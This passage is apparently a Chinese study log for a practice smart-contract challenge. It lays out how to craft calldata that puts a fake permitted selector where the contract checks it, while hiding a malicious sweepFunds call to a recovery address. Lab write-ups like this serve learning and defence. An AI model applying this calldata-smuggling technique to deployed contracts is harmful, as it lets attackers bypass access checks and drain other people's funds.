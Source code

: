 我们先看看加入我们传入一个正常的target和actionData应该是什么样的:

```solidity
// 0x
// <function selector>
// 0000000000000000000000000000000000000000000000000000000000000040 偏移量
// 000000000000000000000000xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx target address
// 0000000000000000000000000000000000000000000000000000000000000040 actionData得长度
// xxxxxxxx00000000000000000000000000000000000000000000000000000000 actionData的实际内容
```

代码中:

```solidity
uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }
// 所以我们只要在这个位置放一个假的selector然后我们再放入我们的恶意calldata就好了
```

那我们开始编写我们的calldata

```solidity
// 0x
// <funtion selector> execute()的selector，不用管前面
// 000000000000000000000000xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx target就是recovery的地址
// 0000000000000000000000000000000000000000000000000000000000000000 偏移量(先不写
// 0000000000000000000000000000000000000000000000000000000000000000 32个字节的0，我们在这里放32字节的0的愿意是要通过uint256 calldataOffset = 4 + 32 * 3;在动态参数编码的时候，我们可以在偏移量和长度直接添加任意长度的值，因为反正偏移量会最后定位到动态参数长度的32字节的
// <fake selector>0000000000000000000000000000000000000000000000000
// 下面是我们的恶意calldata
// sweepFunds() selector
// recovery address
// amount
```
**EXP**

### 2024.09.01

- 在做Damn的withdrawal，还没做出来


